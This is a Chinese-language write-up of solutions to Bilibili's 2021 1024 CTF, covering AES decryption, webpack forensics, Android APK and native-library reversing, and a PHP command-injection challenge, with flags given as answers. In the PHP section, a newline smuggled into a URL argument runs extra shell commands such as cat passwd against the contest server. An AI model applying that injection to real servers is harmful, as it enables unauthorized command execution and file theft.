






# 0x0 简介

Bilibili CTF 简称 BTF，是一个丝毫没有含金量的ctf，狗都不玩。

你甚至可以纯复制粘贴来得到90分，属实拉垮。

活动地址: [https://www.bilibili.com/blackboard/20211024.html](https://www.bilibili.com/blackboard/20211024.html)

但是不管怎么样，我们来写一点可爱的writeup吧

<!-- more -->

# 0x1 AES



猜一下，给了一个类似密码的东西，又给了一个类似加密后文本的字符串，那么就嗯破解就完事了

```
a = "e9ca6f21583a1533d3ff4fd47ddc463c6a1c7d2cf084d364"
b = "0408abca7deabb96a58f50471171b60e02b1a8dbd32db156"
# with open("a1","wb") as f:
#     f.write(bytes.fromhex(b+a))

from Crypto.Cipher import AES

mode = AES.MODE_ECB
cryptos = AES.new(b"happy_1024_2233\x00", mode)
plain_text = cryptos.decrypt(bytes.fromhex(a+b))
print(plain_text)
```

flag: a1cd5f84-27966146-3776f301-64031bb9

# 0x2 Forensic



提示给的很明白了，没有含金量，直接在webpack里一翻就翻到了



flag: 36c7a7b4-cda04af0-8db0368d-b5166480

# 0x3 php web

题目给了一段php的代码

```
<?php
    /* 
        bilibili- ( ゜- ゜)つロ 乾杯~
        uat: http://192.168.3.2/uat/eval.php
        pro: http://security.bilibili.com/sec1024/q/pro/eval.php
    */
    $args = @$_GET['args'];
    if (count($args) >3) {
        exit();
    }
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) ) {
            exit();
        }
    }
    // /bin/2233 args2 args3
    // todo: other filter
    $cmd = "/bin/2233 " . implode(" ", $args);
    exec($cmd, $out);
    for ($i=0; $i<count($out); $i++){
        echo($out[$i]);
        echo('<br>');
    }
?>
```

通过正则可以知道，所有args必须为非空格的字母或者数字，且最大长度为3

最后，这几个args会和/bin/2233 一起执行，执行的格式为 /bin/2233 args1 args2 args3

但是我们想要使用ls, 所以args1 要带上一个换行符, 换行符在url encode 后是%0a,

可以先用`args[]=1%0a&args[]=ls`获取目录，然后用cat获取文件内容

```
import requests

a = requests.get("https://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&args[]=cat&args[]=passwd")
print(a.text)
```
flag: 9d3c3014-6c6267e7-086aaee5-1f18452a

# 0x4 sql injection

麻了

flag: 3d5dd579-0678ef93-18b70cae-cabc5d51

# 0x5 安卓逆向

先用dex2jar 把apk转成jar文件

然后用jd-gui打开，在 MainActivity里找到账号密码的加密方式





加密方式a为做异或，b为base64。反向解密一下就完事了。

```
# dex2jar get jar file
# jd gui decompile
import base64


def decrypt_a(s:bytes,paramInt:int):
    bs = bytearray(s)
    for i in range(len(bs)):
        bs[i] = bs[i] ^ paramInt
    return bytes(bs)

def decrypt_b(s:bytes):
    return base64.b64decode(s)


encoded1 = [78, 106, 73, 49, 79, 122, 65, 51, 89, 71,
                  65, 117, 78, 106, 78, 109, 78, 122, 99, 55,
                  89, 109, 85, 61]
encoded2 = [89, 87, 66, 108, 79, 109, 90, 110, 78, 106,
                  65, 117, 79, 109, 74, 109, 78, 122, 65, 120,
                  79, 50, 89, 61]
print(decrypt_a(decrypt_b(bytes(encoded1)),3))
print(decrypt_a(decrypt_b(bytes(encoded2)),3))
print((decrypt_a(decrypt_b(bytes(encoded1)),3)+b"-"+decrypt_a(decrypt_b(bytes(encoded2)),3)).decode())
```

flag: 516834cc-50e448af-bcf9ed53-9ae4328e


# 0x6 安卓逆向 .so文件

ida打开MyLib.so文件，发现all函数

满足一下条件:

1. 系统为x86且是安卓9
```
print("ro.product.cpu.abi",(3553400).to_bytes(0x8,"little")) # x86
print("ro.build.version.release",(57).to_bytes(0x8,"little")) # 9
```
2. 存在/data/2233 这个文件
3. 有读写权限

那么这个flag就会写到/data/2233文件里




所以解题方法就是找一个安卓9, x86的系统，然后运行就完事了。

具体过程如下

```
# C:\Users\aynakeya>adb shell su 0 setenforce 0
#
# C:\Users\aynakeya>adb shell
# 1|generic_x86:/ $ su
# generic_x86:/ # echo "123" > /data/2233
# generic_x86:/ # su
# generic_x86:/ # chmod 777 /data/
# generic_x86:/ # chmod 77 /data/2233
# generic_x86:/ # chmod 777 /data/2233
# generic_x86:/ # chown everybody:everybody /data/2233
# generic_x86:/ # chown everybody:everybody /data/
# generic_x86:/ # cat /data/2233
# 123
# b1
# 39
# 81
# f4
# 5a
# e9
# 96
# d4
# bc
# 04
# be
# 5b
# 34
# 66
# 2a
# 78

```

当然有dalao贴出了代码，我也不知道是怎么做到的。

```
# from https://www.52pojie.cn/thread-1532604-2-1.html
a = 'bili_2233_3322'
b = 'bili_3322_2233'
amd5 = hashlib.md5(a.encode()).digest()
bmd5 = hashlib.md5(b.encode()).digest()
for i in range(len(amd5)):
    print(hex(amd5[i])[2:].zfill(2), end='')
    print(hex(bmd5[i])[2:].zfill(2), end='')
```

flag: b13981f4-5ae996d4-bc04be5b-34662a78

# 0x7 风控

拿一半分的方法，大概就是筛去爬虫，然后取访问次数最多的几个ip，其他就不知道了。

cr你隔这白嫖风控算法呐？